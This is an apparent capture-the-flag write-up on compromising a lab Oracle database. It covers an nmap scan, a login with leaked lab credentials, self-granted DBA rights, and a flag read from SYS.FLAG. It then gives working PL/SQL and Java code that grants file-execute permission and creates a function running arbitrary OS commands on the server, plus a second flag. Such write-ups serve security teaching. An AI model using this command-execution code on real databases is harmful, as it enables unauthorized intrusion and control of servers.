






# Nmap

After a quick nmap scan, there is an [Oracle TNS Listener](https://docs.oracle.com/cd/E26401_01/doc.122/e22952/T156458T659598.htm) server version `12.2.0.1.0` running on the port.

```bash
nmap -Pn -n -sV -p1521 --script=oracle* 10.10.3.11
```

```
PORT     STATE SERVICE    VERSION
1521/tcp open  oracle-tns Oracle TNS listener 12.2.0.1.0 (unauthorized)
```

# Database access

There were some [boss_note.txt](../Pentest_Princess/workdir/boss_note.txt) found earlier on Princess with credentials. See [Princess challenge (SPOILER)](../Pentest_Princess/WRITEUP.md#spoiler) for details.

```
DB_PDB=ORCLEPDB1
DB_DOMAIN=awesome-corp.com
DB_USER=WilfredWarrior
DB_PASS=Pp59if6gjsXWiCQTRP3Y
```

Using [Oracle Instant client](https://www.oracle.com/database/technologies/instant-client/downloads.html) (sqlplus) or [SQL Developer](https://www.oracle.com/database/sqldeveloper/technologies/download/) (in this case version 17) can be used as client for the database.

This might help to get them work under linux: <https://docs.metasploit.com/docs/using-metasploit/other/oracle-support/>.

The credentials can be used to log in.

```bash
sqlplus 'WilfredWarrior/Pp59if6gjsXWiCQTRP3Y@10.10.3.11:1521/ORCLEPDB1.awesome-corp.com'
```

# Database content

Checking our tables and permissions, it can be seen that it is limited.



We do have `GRANT` permission, so we can simply give `DBA` (database administrator) permission as well.



After a relog, we have way more permissions now.



Looking for tables with flag, there is one that stands out: `SYS.FLAG`.



The table has the flag.



# Flag db
`{HCSC}-Th!s_1S-th3:Fl@g;4-Sy5!!4`

# RCE

As we are already DB admins, there are multiple ways to run code in the Oracle database: java, external table, scheduler.

The following PL/SQL block runs slowly, seemingly freezing the client, but actually the server was working on it.

For the java solution, there is an extra permission we don't have with DBA yet. Running this PL/SQL block grants it.

```sql
BEGIN
dbms_java.grant_permission( 'WILFREDWARRIOR', 'SYS:java.io.FilePermission', '<<ALL FILES>>', 'execute' );
END;
/
```

After this, our code that runs anything can be written. <https://sqlwiki.netspi.com/attackQueries/executingOSCommands/#oracle>.

```sql
BEGIN
EXECUTE IMMEDIATE 'create or replace and compile java source named "PwnUtil" as import java.io.*; public class PwnUtil{ public static String runCmd(String args){ try{ BufferedReader myReader = new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream()));String stemp, str = "";while ((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}} public static String readFile(String filename){ try{ BufferedReader myReader = new BufferedReader(new FileReader(filename));String stemp, str = "";while((stemp = myReader.readLine()) != null) str += stemp + "\n";myReader.close();return str;} catch (Exception e){ return e.toString();}}};';
END;
/
 
BEGIN
EXECUTE IMMEDIATE 'create or replace function PwnUtilFunc(p_cmd in varchar2) return varchar2 as language java name ''PwnUtil.runCmd(java.lang.String) return String'';';
END;
/
```

Using the created function, anything can be executed now.



# Flag rce
`{HCSC}-0r@cl3_Loc4l:fl@g-w!lfrED`